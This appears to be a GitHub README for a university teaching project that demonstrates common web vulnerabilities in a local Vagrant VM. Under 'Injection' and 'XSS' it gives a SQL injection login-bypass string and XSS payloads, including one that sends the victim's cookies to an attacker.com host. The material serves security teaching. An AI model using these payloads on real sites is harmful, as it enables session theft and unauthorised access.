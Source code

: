 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd $PRJ_HOME
> vagrant up
```
* in browser go to http://192.168.33.10/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```
___

### TODOs:
- when you start the machine for the first time there is mysql error at the end of the provisioning:
  - ==> default: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/lib/mysql/mysql.sock' (2)
  - ==> default: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/lib/mysql/mysql.sock' (2)
